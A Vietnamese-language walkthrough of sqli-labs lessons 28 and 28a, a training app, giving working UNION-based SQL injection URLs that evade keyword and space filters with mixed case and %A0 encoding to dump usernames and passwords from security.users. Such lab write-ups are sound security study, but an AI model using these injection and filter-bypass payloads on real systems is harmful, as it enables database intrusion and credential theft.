







# Những việc làm được với lesson-28
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-28



Sau khi đăng nhập với bài 28 này thì ta thêm ký tự đặc biệt vào nhưng kết quả không có gì và cũng không báo lỗi xảy ra 



Khi ta đăng nhập vào thì ta thấy rằng nó có xuất ra dữ liệu của user và password. Vốn dĩ nó là một câu truy vấn. Thế nên ta sẽ đi tìm cách để của thể xuất dữ liệu bằng cách này và chắc chắn nó sẽ sử dụng `select` và `union` 

Lưu ý bởi vì tất cả ký tự `union` và `select` đều bị lấy mất tại url này. Nên ta sẽ viết ký tự thường xen lẫn với chữ hoa. Và khi thử bằng ký tự đặc biệt cũng tương tự. Nên ta phải encode nó lại. CÓ các website giúp ta làm những việc đó. ví dụ như 
```
https://www.urldecoder.org/
```
Ta có thể sử dụng để chuyển từ câu truy vấn thường sang tôi sẽ thử 2 lần một với url thường và một đã được encode 
```
192.168.80.225/sqli-labs/Less-28/?id=0')UnIoNSeLeCt(1),@@version,group_concat(password)fromsecurity.userswhere('1
```



Ta sẽ encode 



```
http://192.168.80.225/sqli-labs/Less-28/?id=0%27)%A0UnIoN%A0SeLeCt(1),@@version,group_concat(password)%A0from%A0security%2Eusers%A0where%A0%a0(%271
```


Đó ta đã có được cấu trúc của nó thì giờ ta chỉ thay vào bằng các câu lệnh mà ta đã làm từ những bài trước vào cấu trúc này thôi 

# Bài 28a 



Ở bài này ta nhìn cũng rất giống như bài 28 nhưng tôi đoán nó sẽ khác nhau một chút về Cấu trúc truy vấn của nó.

Ta tìm được câu truy vấn của nó 
```
192.168.80.225/sqli-labs/Less-28a/?id=0') UnIon%A0SeLect 1,version(),database()--+
```



Ta có thể  Truy vấn DB với các cấu trúc thay vào cấu trúc của bài này để truy vấn ra 

```
192.168.80.225/sqli-labs/Less-28a/?id=0')%a0UnIon%a0SeLect 1,group_concat(username),group_concat(password) from security.users where 1--+
```


### NOTE: Lưu ý rằng khi thử một cách bình thường không được ta hay encode URL thử xem nhé. Ở trong bài này những giấu space sẽ không hoạt động được như bình thường 


